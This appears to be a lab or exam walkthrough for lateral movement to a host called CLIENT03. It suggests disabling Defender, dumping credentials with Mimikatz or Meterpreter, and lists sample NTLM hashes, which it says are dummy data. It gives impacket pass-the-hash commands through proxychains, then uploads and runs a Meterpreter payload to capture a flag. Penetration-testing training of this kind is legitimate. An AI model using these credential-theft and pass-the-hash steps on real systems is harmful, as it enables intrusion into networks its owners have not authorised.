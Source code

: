 # Lateral movement to CLIENT03

The lateral movement is very simple. Once administrator, dump the credentials on the CLIENT03.  
For this, you can use Mimikatz after disabling Defender, the `kiwi` module of Meterpreter, or simply `hashdump` from Meterpreter (data is dummy).

    Administrator:500:b512c1f3a8c0e7241aa818381e4e751b:1891f4775f676d4d10c09c1225a5c0a3:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    HelpAssistant:1000:9cac9c4683494017a0f5cad22110dbdc:31dcf7f8f9a6b5f69b9fd01502e6261e:::
    SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:36547c5a8a3de7d422a026e51097ccc9:::

Set up *autorouting* on Meterpreter, or a Chisel proxy (section 13.1.3 of PDF).

Now, use impacket to PsExec to CLIENT03 (change NTLM):  
`proxychains impacket-psexec Administrator@172.16.X.Y -no-pass -hashes :b512c1f3a8c0e7241aa818381e4e751b`

Copy the Meterpreter payload onto it (keep this command for later, it's always useful)  
`proxychains impacket-smbclient Administrator@172.16.X.Y -no-pass -hashes :b512c1f3a8c0e7241aa818381e4e751b`  
```
# use c$
# put /home/kali/meterpreter.exe
# ls
```
And run it from the psexec session.

Grab the flag C:\Users\Administrator\Desktop\proof.txt

If you have any question, feel free to contact me on Discord Tamarisk#3723
Note : this document is subject to evolution to better fit your needs. We keep in touch !